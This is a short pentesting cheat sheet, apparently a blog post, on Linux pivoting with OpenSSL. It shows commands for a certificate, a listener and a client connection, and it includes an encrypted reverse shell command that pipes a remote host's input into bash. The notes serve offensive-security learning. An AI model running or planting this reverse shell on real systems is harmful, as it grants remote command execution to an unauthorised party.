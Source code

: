 ```yaml
---
title: Linux - Pivoting, tunneling, and sending files
date: 2024-08-03 10:00:00
categories:
  - Pentesting
  - Linux
tags:
  - Pentesting
  - Linux
  - Pivoting
  - Port forwarding
  - Tunneling
  - Send files
toc: true
---
```


---
Obtain access to other resources on the internal network.
Transfer files in smart ways.

---


## Pivoting

### Encrypted shell with OpenSSL
```bash Generate a certificate
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
```

```bash Start an OpenSSL server
openssl s_server -quiet -key key.pem -cert cert.pem -port 4444
```

```bash Connect from the client
openssl s_client -quiet -connect $IP:4444
```

<br>

### Encrypted reverse shell with OpenSSl
```bash Generate a certificate
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
```

```bash Set up the listening server
openssl s_server -quiet -key key.pem -cert cert.pem -port 4444
```

```bash Connect to the sever from the client and initiate the shell
openssl s_client -quiet -connect $IP:4444 | bash
```

<br>
